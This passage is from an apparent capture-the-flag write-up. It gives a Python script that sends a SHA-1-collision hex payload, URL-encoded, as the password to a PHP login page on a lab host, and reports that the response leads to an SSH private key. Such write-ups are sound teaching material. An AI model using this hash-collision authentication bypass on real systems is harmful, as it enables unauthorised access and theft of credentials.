 ```python
password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

username = ''.join(username.split(' '))
password = ''.join(password.split(' '))

usernamestr = ''.join(['%' + username[i] + username[i + 1] for i in range(0, len(username)) if i % 2 == 0])
passwordstr = ''.join(['%' + password[i] + password[i + 1] for i in range(0, len(password)) if i % 2 == 0])

response = requests.get('http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(usernamestr, passwordstr), proxies={'http':'http://localhost:8080'})

print(response.text)
```

Running the script and getting the HTML response, we get more information.

![](/assets/2021-09-05-07-32-22.png)

This text file gives us access to an SSH private key.
